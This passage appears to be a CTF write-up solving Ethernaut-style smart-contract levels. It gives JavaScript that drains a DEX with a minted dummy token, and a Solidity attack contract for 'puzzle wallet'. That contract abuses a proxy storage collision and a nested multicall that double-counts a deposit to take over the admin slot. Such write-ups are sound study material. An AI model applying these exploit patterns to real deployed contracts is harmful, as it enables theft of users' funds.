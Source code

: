 ```javascript
tx = await dummyToken.transfer(player.address, 10)
await tx.wait()
await (await dummyToken.approve(dex.address, 10)).wait()

tx = await dex.swap(dummyToken.address, token2.address, 10);
await tx.wait()

await (await dummyToken.mint(20)).wait()
await (await dummyToken.approve(dex.address, 20)).wait()

tx = await dex.swap(dummyToken.address, token1.address, 20);
await tx.wait()
```

--- 

## puzzle wallet

The goal is to become the proxy admin.  `PuzzleProxy` has `proposeNewAdmin` function public without any checks. We can become `pendingAdmin` via this, but how does it help us. Recall that delegate function executes logic of another contract in the context of the proxy contract. By setting `pendingAdmin` as the player's address, we can access owner role in the `PuzzleWallet`

Which gives access to `addToWhitelist`. Call `addToWhitelist` via delegate from Proxy contractand add player as whitelisted address. Now we can call `setMaxBalance` but there is a requirement of balance to be zero.

Balance can only be drained from `execute` which requires sender to deposit some funds. We need to trick the contract into mapping more balance to player's address than it actually is and drain all the funds. `deposit` is pretty striaghtforward. `multicall` is the only one left. We can call `deplosit` twice via multicall even though it has a check, of `require(!depositCalled, "Deposit can only be called once");` via wrapping our second deposit call inside a multicall.

Then we simply drain the funds and call `setMaxBalance` with value set to player's address (with a slight bit manipulation)


```solidity
contract WalletAttack {
    PuzzleProxy proxy;
    PuzzleWallet wallet;
    constructor(address instance) payable {
        proxy = PuzzleProxy(payable(instance));
        wallet = PuzzleWallet(instance);

        proxy.proposeNewAdmin(address(this));
        wallet.addToWhitelist(address(this));
        
        bytes[] memory data = new bytes[](2);
        data[0] = abi.encodeWithSignature("deposit()");

        bytes[] memory nestedDeposit = new bytes[](1);
        nestedDeposit[0] = abi.encodeWithSignature("deposit()");

        data[1] = abi.encodeWithSignature("multicall(bytes[])", nestedDeposit);
        wallet.multicall{value: 0.001 ether}(data);
        wallet.execute(address(this), 0.002 ether, "");
        uint256 maxBalance = uint256(bytes32(bytes20(address(msg.sender))) >> 96);
        wallet.setMaxBalance(maxBalance);
        
    }
    receive() payable external {}
}
```
